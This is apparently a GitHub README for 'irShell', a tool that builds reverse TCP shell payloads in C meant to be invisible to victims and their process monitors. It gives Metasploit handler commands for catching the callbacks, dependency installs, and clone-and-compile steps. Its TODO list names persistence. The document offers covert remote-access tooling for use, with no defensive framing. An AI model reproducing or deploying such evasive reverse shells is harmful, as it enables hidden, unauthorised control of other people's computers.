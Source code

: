 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows in C. 

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in installation 
